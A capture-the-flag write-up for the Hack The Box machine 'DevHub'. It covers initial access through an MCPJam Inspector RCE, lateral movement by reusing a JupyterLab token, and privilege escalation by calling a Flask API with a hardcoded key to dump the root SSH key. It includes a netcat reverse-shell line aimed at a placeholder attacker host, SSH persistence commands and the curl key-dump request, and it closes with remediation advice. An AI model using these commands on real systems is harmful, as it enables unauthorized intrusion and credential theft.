





Summary
Machine Overview
DevHub is a medium-difficulty Linux machine on Hack The Box focusing on exploiting an MCPJam Inspector instance vulnerable to remote code execution. A Jupyter local server was used for lateral movement. A Python script with a hardcoded API key was used to escalate privileges.
Pentesting Process
Service Enumeration
We started our assessment by performing a comprehensive port scan using RustScan to identify open ports and services running on the target machine.
rustscan -r 1-60000 -a 10.129.6.146
The scan identified three accessible services:
Open 10.129.6.146:22
Open 10.129.6.146:80
Open 10.129.6.146:6274
To simplify the assessment process, we mapped the target IP address to the domain name devhub.htb by adding an entry to the /etc/hosts file.
Initial Access
MCPJam Inspector Instance
The target machine hosts an MCPJam Inspector v1.4.2 instance on port 6274. This version is vulnerable to a remote code execution vulnerability identified as CVE-2026-23744.
A public proof-of-concept exploit is available and can be used to obtain initial access to the target system [1].
Exploitation
Executing the exploit results in a reverse shell on the machine as the user mcp-dev.

To maintain access to the system, we generated SSH keys for the user mcp-dev, added the public key to the authorized_keys file, and set the appropriate file permissions.
mkdir -p ~/.ssh/mykeys && ssh-keygen -t ed25519 -f ~/.ssh/mykeys/id_ed25519 -N "" && cat ~/.ssh/mykeys/id_ed25519.pub >> ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys
The generated SSH keys will be used for future connections to the target system.
Post-Exploitation
Process Discovery
After gaining initial access to the target system, we performed process discovery to identify running processes and potential privilege escalation opportunities.
We discovered a Python JupyterLab instance running as the user analyst.
analyst 1019 0.1 2.4 183060 97600 ? Ss 19:07 0:09 /home/analyst/jupyter-env/bin/python3 /home/analyst/jupyter-env/bin/jupyter-lab --ip=127.0.0.1 --port=8888 --no-browser --notebook-dir=/home/analyst/notebooks --ServerApp.token=a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7 --ServerApp.password= --ServerApp.allow_origin= --ServerApp.disable_check_xsrf=False
The instance is listening on port 8888 and can be accessed locally.
Using the generated SSH key, we can port forward port 8888 to access the JupyterLab instance remotely.
JupyterLab Instance
To access the JupyterLab instance, we need to provide a password or a token.

In the process output, we can see that the user analyst provided the token as an argument when starting the instance.
--ServerApp.token=a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7
Using the token, we accessed the JupyterLab instance.
After logging in, we executed the following Python script to establish a reverse shell:
__import__('os').system("busybox nc <ATTACKER_IP> <ATTACKER_PORT> -e bash")

This results in a reverse shell as the user analyst.

Privilege Escalation
Process Discovery
The process discovery phase revealed a Python script running with elevated privileges.
root 1026 0.0 0.7 111108 28736 ? Ss 19:07 0:04 /home/analyst/jupyter-env/bin/python3 /opt/opsmcp/server.py
The user analyst has read access to the script.
-rw-r----- 1 analyst analyst 6021 Mar 16 21:49 /opt/opsmcp/server.py
Script Analysis
The script is a Flask application that handles API requests. The server is listening on 127.0.0.1:5000.
An API endpoint in the application allows us to retrieve the root SSH private key.
@app.route('/tools/call', methods=['POST'])
def call_tool():
if not check_auth():
return jsonify({"error": "Unauthorized", "message": "Valid X-API-Key header required"}), 401
data = request.get_json() or {}
tool_name = data.get('name', '')
args = data.get('arguments', {})
""" SNIPPET """
elif tool_name == "ops._admin_dump":
target = args.get('target', '')
confirm = args.get('confirm', False)
if not confirm:
return jsonify({
"error": "Confirmation required",
"usage": "Set confirm=true to proceed",
"warning": "This dumps sensitive credentials"
})
if target == "ssh_keys":
try:
with open('/root/.ssh/id_rsa', 'r') as f:
key_data = f.read()
return jsonify({
"target": "ssh_keys",
"root_private_key": key_data,
"note": "Emergency recovery key dump"
})
except Exception as e:
return jsonify({
"target": "ssh_keys",
"error": f"Could not read key: {str(e)}"
})
The application checks whether the POST request contains a valid API key before allowing access to the endpoint.
def check_auth():
"""Check API key authentication"""
api_key = request.headers.get('X-API-Key', '')
return api_key == VALID_API_KEY
The API key is hardcoded in the application.
# API Key for authentication
VALID_API_KEY = "opsmcp_secret_key_4f5a6b7c8d9e0f1a"
Exploitation
To retrieve the root SSH key, we sent the following POST request:
curl -X POST http://127.0.0.1:5000/tools/call -H "X-API-Key: opsmcp_secret_key_4f5a6b7c8d9e0f1a" -H "Content-Type: application/json" -d '{"name":"ops._admin_dump","arguments":{"target":"ssh_keys","confirm":true}}'
We received the root SSH private key in the response.

Using the retrieved SSH key, we can establish an SSH session on the system as the root user.
Mitigation
Remediation
The following remediation steps can help prevent exploitation of the identified vulnerabilities:
- Upgrade MCPJam Inspector to version 1.4.3 or later
- Avoid providing sensitive information as command-line arguments when launching the Jupyter instance. Instead, use environment variables or configuration files.
- Disable direct SSH login for the root user. Additionally, avoid hardcoding sensitive information in scripts and properly manage the permissions of sensitive files, such as scripts running with root privileges.
References
References
Proof of Completion
Proof of Completion
